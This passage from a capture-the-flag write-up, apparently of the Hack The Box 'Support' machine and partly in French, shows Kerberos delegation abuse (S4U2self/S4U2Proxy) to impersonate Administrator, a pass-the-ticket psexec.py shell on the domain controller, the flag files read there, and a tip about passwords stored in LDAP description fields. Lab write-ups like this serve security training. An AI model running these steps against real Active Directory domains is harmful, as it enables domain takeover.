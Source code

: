 ```bash

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_dc.support.htb@SUPPORT.HTB.ccache
    
$ mv Administrator@CIFS_dc.support.htb@SUPPORT.HTB.ccache admin.ccache           
$ export KRB5CCNAME="admin.ccache"                                  

# This ticket can then be used with Pass-the-Ticket, and could grant access to the file system of the TARGETCOMPUTER.
$ psexec.py -k -no-pass support.htb/Administrator@dc.support.htb

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file phZHHPqE.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service YbSC on dc.support.htb.....
[*] Starting service YbSC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\support\Desktop\user.txt
1e30.....0c23

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
a848.....12cf
```

## Tips
Je n'ai pas trouvé le mot de passe de l'utilisateur **support** avec **ldapsearch**.

Conseil: Après de longues recherches sur **bloodhound**, si on trouve un compte et/ou un groupe intéressant, toujours les analyser avec **ldapsearch** après, pour vérifier qu'il n'y pas d'infos supplémentaires tel qu'un mot de passe dans une variable de description par exemple.
